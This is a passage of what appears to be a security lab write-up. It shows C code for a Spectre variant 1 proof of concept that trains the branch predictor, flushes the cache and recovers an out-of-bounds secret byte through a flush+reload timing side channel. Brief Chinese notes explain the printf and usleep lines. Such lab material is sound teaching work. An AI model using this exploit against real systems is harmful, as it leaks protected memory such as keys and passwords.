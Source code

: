 ```c
  volatile int z;

  for (i = 0; i < 256; i++)  { _mm_clflush(&array[i*4096 + DELTA]); }

  // Train the CPU to take the true branch inside victim().
  for (i = 0; i < 10; i++) {
    restrictedAccess(i);  
  }

  // Flush bound_upper, bound_lower, and array[] from the cache.
  _mm_clflush(&bound_upper);
  _mm_clflush(&bound_lower); 
  for (i = 0; i < 256; i++)  { _mm_clflush(&array[i*4096 + DELTA]); }
  for (z = 0; z < 100; z++)  {  }
  //
  // Ask victim() to return the secret in out-of-order execution.
  s = restrictedAccess(index_beyond);
  array[s*4096 + DELTA] += 88;
}

int main() {
  int i;
  uint8_t s;
  size_t index_beyond = (size_t)(secret - (char*)buffer);

  flushSideChannel();
  for(i=0;i<256; i++) scores[i]=0; 

  for (i = 0; i < 1000; i++) {
    printf("*****\n");  // This seemly "useless" line is necessary for the attack to succeed
    spectreAttack(index_beyond);
    usleep(10);
    reloadSideChannelImproved();
  }

  int max = 0;
  for (i = 0; i < 256; i++){
    if(scores[max] < scores[i]) max = i;
  }

  printf("Reading secret value at index %ld\n", index_beyond);
  printf("The secret value is %d(%c)\n", max, max);
  printf("The number of hits is %d\n", scores[max]);
  return (0); 
}
```

程序解读：  
printf("*****\n");这句话在20.04系统必须要加，16.04可以不加，原因未知  
usleep(10)睡眠10微秒
